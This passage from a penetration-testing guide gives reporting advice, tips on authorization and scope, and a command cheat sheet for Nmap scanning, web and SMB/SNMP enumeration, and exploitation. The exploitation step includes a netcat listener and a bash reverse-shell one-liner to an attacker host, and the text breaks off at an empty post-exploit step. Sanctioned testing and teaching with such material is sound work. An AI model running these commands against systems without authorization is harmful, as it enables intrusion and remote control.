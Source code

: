 Cleanup (examples)
```
# Remove files created on target (adjust paths)
rm -f /tmp/shell.elf /tmp/.tmpkey
# Clear SMB creds cache on Kali (local)
printf "" > ~/.smb/smb.conf 2>/dev/null || true
```

Reporting
- Capture exact commands used, parameters, timestamps, IPs, and evidence screenshots.
- For each finding: title, description, affected asset, steps to reproduce, impact, evidence, severity (e.g., CVSS), remediation, references.

# Practical tips
- Always get explicit written authorization and a clear scope/ROE before any testing.
- Timebox intrusive actions and throttle scans (e.g., Nmap -T3) during business hours.
- Log everything as you go; script/tmux or tee to files. Screenshot key evidence.
- Prefer safe, non-destructive tests first; avoid DoS; do not persist unless allowed.
- Validate vulnerabilities before exploitation; minimize data exposure during proof-of-concept.
- Use unique markers in payloads to simplify identification and cleanup.
- Keep a findings list updated continuously; map to objectives and business impact.
- Communicate early if you observe instability or high-risk conditions.
- Standardize report templates to reduce rework and improve consistency.
- Retest after remediation; confirm fixes and look for regressions.

# Minimal cheat sheet (one-screen flow)
- Pre-engagement: scope + ROE + authorization + comms plan.
- Setup:
```
PRJ=acme; WK=~/engagements/$PRJ; mkdir -p $WK/{scans,web,enum,loot}; cd $WK
SUBNET=10.10.10.0/24; TGT=10.10.10.10; LHOST=10.10.14.5
```
- Discovery:
```
nmap -sn $SUBNET -oA scans/ping
LIVE=$(grep "Status: Up" scans/ping.gnmap | awk '{print $2}')
```
- Ports:
```
for H in $LIVE; do nmap -p- -sS -T3 -Pn -oA scans/$H-all $H; done
for H in $LIVE; do P=$(grep -oP '\d+/open/tcp' scans/$H-all.gnmap|cut -d/ -f1|tr '\n' ','|sed 's/,$//'); [ -n "$P" ] && nmap -p $P -sV -sC -O -Pn -oA scans/$H-scripts $H; done
```
- Web:
```
whatweb http://$TGT | tee web/$TGT-whatweb.txt
gobuster dir -u http://$TGT -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html -o web/$TGT-gobuster.txt
nikto -h http://$TGT -output web/$TGT-nikto.txt
```
- SMB/FTP/SNMP:
```
enum4linux -a $TGT | tee enum/$TGT-e4l.txt
smbmap -H $TGT | tee enum/$TGT-smbmap.txt
nmap --script ftp-anon -p21 $TGT -oN scans/$TGT-ftp.txt
snmpwalk -v2c -c public $TGT 1.3.6.1.2.1.1 | tee enum/$TGT-snmp.txt
```
- Exploit:
```
searchsploit <service/version>
rlwrap nc -lvnp 4444  # listener
# Use RCE to run: bash -c 'bash -i >& /dev/tcp/'"$LHOST"'/4444 0>&1'
```
- Post-exploit:
```
```